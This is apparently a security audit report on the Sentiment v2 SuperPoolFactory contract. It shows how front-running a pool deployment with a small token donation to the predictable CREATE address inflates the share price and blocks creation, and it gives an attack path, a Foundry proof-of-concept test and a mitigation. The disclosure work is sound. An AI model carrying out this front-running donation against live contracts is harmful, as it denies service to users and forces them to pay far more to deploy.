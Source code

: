 Orbiting Bronze Mustang

High

# Griefer can DOS the `SuperPool` creation and make it very expensive for other users

### Summary

The `SuperPoolFactory.sol` contract creates new `SuperPool` instances using the `new` keyword, which is essentially using the `CREATE` opcode. This means that the address of the next `SuperPool` instance can be known by any user. To create a new `SuperPool`, it's essential to deposit and burn a minimum of 1000 shares. A griefer can frontrun `SuperPool` creation transactions and `transfer` small amounts of tokens to the known `SuperPool` address to make shares expensive and prevent the creation of the `SuperPool`.

### Root Cause

1. When using the `CREATE` opcode, the new contract address depends on the deployer address (the `SuperPoolFactory.sol` address which is known) and its nonce (which can be calculated by simply looking at `SuperPoolFactory`'s etherscan). Even [ethers](https://docs.ethers.org/v5/api/utils/address/#utils-getContractAddress) has a function to calculate the next address. This means that the next `SuperPool` address that will be created is known and can't be changed.

2. `SuperPool` creation requires the user to deposit and burn a minimum of `1000 shares`, otherwise the transaction will revert.

[deploySuperPool](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/SuperPoolFactory.sol#L56):

```solidity
    function deploySuperPool(
        address owner,
        address asset,
        address feeRecipient,
        uint256 fee,
        uint256 superPoolCap,
        uint256 initialDepositAmt,
        string calldata name,
        string calldata symbol
    ) external returns (address) {
        if (fee != 0 && feeRecipient == address(0)) revert SuperPoolFactory_ZeroFeeRecipient();
@>      SuperPool superPool = new SuperPool(POOL, asset, feeRecipient, fee, superPoolCap, name, symbol);
        superPool.transferOwnership(owner);
        isDeployerFor[address(superPool)] = true;

        // burn initial deposit
        IERC20(asset).safeTransferFrom(msg.sender, address(this), initialDepositAmt); // assume approval
        IERC20(asset).approve(address(superPool), initialDepositAmt);
@>      uint256 shares = superPool.deposit(initialDepositAmt, address(this));
@>      if (shares < MIN_BURNED_SHARES) revert SuperPoolFactory_TooFewInitialShares(shares);
        IERC20(superPool).transfer(DEAD_ADDRESS, shares);

        emit SuperPoolDeployed(owner, address(superPool), asset, name, symbol);
        return address(superPool);
    }
```

Note that `uint256 public constant MIN_BURNED_SHARES = 1000;`

An attacker can frontrun this transaction from a regular user and donate to the already known `address` a small amount of the `SuperPool`'s selected asset to inflate the shares and make them very expensive for the user to create the `SuperPool` (exact numbers shown in the coded PoC).

The shares inflation happens because of the [`_convertToShares`](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/SuperPool.sol#L456) function used in the [`deposit`](https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/SuperPool.sol#L258) function:

```solidity
    function deposit(uint256 assets, address receiver) public nonReentrant returns (uint256 shares) {
        accrue();
@>      shares = _convertToShares(assets, lastTotalAssets, totalSupply(), Math.Rounding.Down);
        if (shares == 0) revert SuperPool_ZeroShareDeposit(address(this), assets);
        _deposit(receiver, assets, shares);
    }
```
```solidity
    function _convertToShares(
        uint256 _assets,
        uint256 _totalAssets,
        uint256 _totalShares,
        Math.Rounding _rounding
    ) public view virtual returns (uint256 shares) {
        shares = _assets.mulDiv(_totalShares + 1, _totalAssets + 1, _rounding);
    }
```

Normally a user would only need `1000 assets` to mint `1000 shares` (1000 * 1 / 1 = 1000 shares using the `_convertToShares` formula above). Imagine a donation of `1000000 assets` before the transaction. Now `1000 assets` would give `0 shares` (1000 * 1 / 1000001 = 0 shares). With a token like `USDC` which has 6 decimals and is in scope, a user would need $1000 to overcome a $1 donation and mint `1000 shares`.



### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. Attacker calculates the address of the next `SuperPool`.
2. User sends a transaction to create a `SuperPool`.
3. Attacker frontruns this transaction and donates a small amount of the user's specified `SuperPool` asset.
4. User's transaction fails due to not enough dead shares minted.
5. It is now very expensive to create that specific `SuperPool`.

### Impact

It will become very expensive to create a `SuperPool`, many users won't want to do it and `SuperPools` will stop getting created.

### PoC

Paste the following code in the `test/core/Superpool.t.sol` test file and follow the comments:

```solidity
    function testSuperPoolDOS() public {
        // Let's say that the asset is USDC which has 6 decimals and assume 1 USDC = $1
        asset1.mint(user, 10 ether);
        asset1.mint(user2, 10 ether);

        // User has calculated the address of the next SuperPool and donates 1 USDC before the creation transaction
        vm.prank(user);
        asset1.transfer(0x1cEE5337E266BACD38c2a364b6a65D8fD1476f14, 1_000_000);

        vm.prank(user2);
        asset1.approve(address(superPoolFactory), 10 ether);

        // Error selectors to be used with the vm.expectReverts
        bytes4 selectorFactory = bytes4(keccak256("SuperPoolFactory_TooFewInitialShares(uint256)"));
        bytes4 selectorSuperPool = bytes4(keccak256("SuperPool_ZeroShareDeposit(address,uint256)"));

        // Deposit amounts
        uint256 normalMinAmount = 1000;
        uint256 oneThousandUSDC = 1_000_000_000;

        // user2 tries to create a SuperPool sending the supposed min amount of 1000, it reverts because he minted 0
        // shares
        vm.prank(user2);
        vm.expectRevert(abi.encodeWithSelector(selectorSuperPool, 0x1cEE5337E266BACD38c2a364b6a65D8fD1476f14, 1000));
        superPoolFactory.deploySuperPool(
            user2, address(asset1), user2, 0.01 ether, type(uint256).max, normalMinAmount, "test", "test"
        );

        // user2 tries to create a SuperPool sending 1000 USDC, it reverts because he minted 999 shares
        vm.prank(user2);
        vm.expectRevert(abi.encodeWithSelector(selectorFactory, 999));
        superPoolFactory.deploySuperPool(
            user2, address(asset1), user2, 0.01 ether, type(uint256).max, oneThousandUSDC, "test", "test"
        );

        // Here is a test to prove that SuperPool creation is NOT dependant on block.timestamp, block.number, address
        // calling the transaction or function parameters
        // All of these are changed and the transaction fails with the same error message because it still creates the
        // SuperPool at the same address as befores
        vm.prank(user);
        asset1.approve(address(superPoolFactory), 10 ether);
        vm.warp(block.timestamp + 45_914_891);
        vm.roll(block.number + 100);

        vm.prank(user);
        vm.expectRevert(abi.encodeWithSelector(selectorFactory, 999));
        superPoolFactory.deploySuperPool(
            user, address(asset1), user, 0.01 ether, type(uint256).max, oneThousandUSDC, "test1", "test1"
        );

        // user2 sends the transaction with 1001 USDC, it is now succesful since it minted the required 1000 shares
        vm.prank(user2);
        superPoolFactory.deploySuperPool(
            user2, address(asset1), user2, 0.01 ether, type(uint256).max, 1_001_000_000, "test", "test"
        );
    }
```

### Mitigation

Don't require from the user to deposit and actually mint the dead shares. You can hardcode them in the `SuperPool` contract by making for e.g.:

1. The `totalAssets` function to return the actual total assets + 1000
2. The `totalSupply` function to return the actual total supply + 1000